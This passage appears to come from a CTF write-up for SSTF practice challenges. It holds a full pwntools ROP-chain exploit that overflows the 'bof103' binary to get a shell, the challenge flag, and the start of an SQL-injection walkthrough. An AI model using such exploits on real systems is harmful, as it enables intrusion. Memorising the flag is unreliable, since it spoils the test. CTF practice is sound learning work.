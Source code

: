 ![](https://i.imgur.com/I3aX8Kb.png)

rdi gadget: `0x4007b3`
rsi gadget: `0x400747`
useme address: `0x4006a6`
system address: `0x400550`

![](https://i.imgur.com/iMhyjqo.png)

key address: `0x601068`

程式如下:
```python=
from pwn import *
context.log_level = "debug"
conn = remote("bof103.sstf.site", 1337)
#conn = process("./bof103")
#gdb.attach(conn)

rdi_gadget = p64(0x00000000004007b3)
rsi_gadget = p64(0x0000000000400747)
useme_ptr = p64(0x00000000004006a6)
system_ptr = p64(0x0000000000400550)

conn.recvuntil("Name >")
payload = b"A" * 16 # name
payload += b"B" * 8 # RBP of bofme
payload += rdi_gadget # ROP chain - rdi
payload += b"/bin/sh\x00" # rdi param (a)
payload += rsi_gadget # ROP chain - rsi
payload += p64(1) # rdi param (b)
payload += useme_ptr # useme()
payload += rdi_gadget # ROP chain - rdi
payload += p64(0x601068) # rdi param (&key)
payload += system_ptr # system()
conn.sendline(payload)

conn.interactive()
```

![](https://i.imgur.com/IJXDMGI.png)


SCTF{S0_w3_c4ll_it_ROP_cha1n}

## SQLi 101
![](https://i.imgur.com/YRlyAgJ.png)

進入後，可以看到是一個登入介面
![](https://i.imgur.com/brBgGdS.png)

嘗試使用 `'` 測試是否有 SQL injection
![](https://i.imgur.com/Z1P7gm4.png)
